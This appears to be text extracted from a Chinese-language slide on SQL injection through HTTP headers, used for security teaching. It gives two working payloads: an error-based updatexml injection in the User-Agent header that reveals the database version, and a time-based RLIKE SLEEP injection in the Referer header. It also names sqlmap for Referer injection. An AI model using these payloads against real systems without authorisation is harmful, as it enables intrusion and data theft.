

Python

HTTP头中的SQL注入

1.HTTP User-Agent注入
payload	' and updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '1'='1

2.HTTP Referer注入
payload	' RLIKE SLEEP(5) AND 'gUyf'='gUyf

3.sqlmap referer注入